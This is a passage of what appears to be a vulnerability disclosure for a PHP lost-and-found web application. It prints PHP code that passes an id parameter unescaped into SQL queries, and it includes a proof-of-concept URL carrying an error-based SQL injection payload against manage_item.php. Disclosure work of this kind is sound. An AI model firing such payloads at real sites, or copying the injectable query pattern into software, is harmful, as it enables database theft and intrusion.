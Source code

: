 ## Related Codes admin\inquiries\view_inquiry.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `inquiry_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
		$conn->query("UPDATE `inquiry_list` set `status` = 1 where `id` = '{$id}'");
    }else{
		echo '<script>alert("inquiry ID is not valid."); location.replace("./?page=inquiries")</script>';
	}
}else{
	echo '<script>alert("inquiry ID is Required."); location.replace("./?page=inquiries")</script>';
}
?>
```

# **5.SQL injection vulnerability in admin\items\manage_item.php**
---
## Sample request POC #5

```
http://php-lfis.com/?page=admin/items/manage_item&id=1%27%20OR%20(SELECT%206925%20FROM(SELECT%20COUNT(*),CONCAT(0x716b767a71,(SELECT%20(ELT(6925=6925,1))),0x7171626b71,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27SRGH%27=%27SRGH
```
## Sqlmap running results #5

![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/5.admin-items-manage_item.php.png "Lost and Found Information System")

## Related Codes admin\items\manage_item.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `item_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }
}
?>
```
